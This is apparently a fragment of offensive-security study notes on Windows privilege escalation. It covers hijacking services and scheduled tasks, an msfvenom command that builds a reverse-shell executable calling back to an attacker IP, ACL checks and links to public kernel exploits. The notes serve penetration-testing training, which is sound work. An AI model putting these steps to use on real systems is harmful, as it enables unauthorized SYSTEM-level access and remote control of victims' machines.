 compile on kali
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

or revers shell as the running service user
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o sys.exe
```

locate in the right path and restsrt the service
```
sc.exe stop <service name>
sc.exe start <service name>
```
#### Scheduled Tasks

- abusing the executable file
- abusing a dependency files 

schedules tasks that not create by system
```
Get-ScheduledTask | Where-Object { $_.TaskPath -notlike '\Microsoft*' -and $_.Principal.UserId -ne 'SYSTEM' }
```

check permissions on the exe
```
icacls "<exe_path>"
Get-Acl "<exe_path>"
```

modify the exe and wait until the next run 
#### Using Exploits

- exploit _application-based_ vulnerabilities - installed applications on a Windows system may contain different types of vulnerabilities
- exploit vulnerabilities in the Windows Kernel
- exploit in running services
- search for cves: https://github.com/rasta-mouse/Watson, https://github.com/rasta-mouse/Sherlock

Local Privilege Escalation (MS11-046) - https://www.exploit-db.com/exploits/40564
smbghost - https://kashz.gitbook.io/common-exploits/windows-exploits/smbghost
windows server 2008 standard 6001 privilege escalation: https://www.exploit-db.com/exploits/40564